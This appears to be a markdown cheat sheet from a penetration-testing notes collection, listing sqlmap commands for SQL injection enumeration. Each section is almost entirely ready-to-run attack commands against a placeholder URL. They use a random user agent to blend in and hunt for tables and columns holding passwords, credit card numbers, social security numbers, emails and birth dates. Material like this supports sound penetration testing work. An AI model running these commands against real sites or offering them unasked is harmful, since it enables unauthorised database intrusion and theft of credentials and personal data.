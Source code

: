 # 04 - Tables and Columns

Search Tag: #sqlmap #enumeration-and-discovery

## 4.1 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u "<URL>" --random-agent --search -D <database> -C user,pass,username,password
```

- Retrieve relation (tables)

```
$ sqlmap -u "<URL>" --random-agent -D <database> --tables
```

- Count number of tables

```
$ sqlmap -u "<URL>" --random-agent -D <database> --tables --count
```

- Search for specific tables

```
$ sqlmap -u "<URL>" --search -T credit_cards,users
```

## 4.2 - Columns Enumeration

```
$ sqlmap -u "<URL>" --random-agent -D <database> -T users --columns
```

TODO: Test these last two flags respectively of how it works.

```
$ sqlmap -u "<URL>" --random-agent --statements
```

```
$ sqlmap -u "<URL>" --random-agent --comments
```

- Search for specific tables

```
$ sqlmap -u "<URL>" --search -C email,contact,number,mobile,mobile_alt,phone,telephone,fax,user,username,uname,pass,password,passwd,pwd,ssn,cc,ccn,ip,userip,lastip,address,name,fullname,sex,gender,nationality,state,country,postcode,dob
```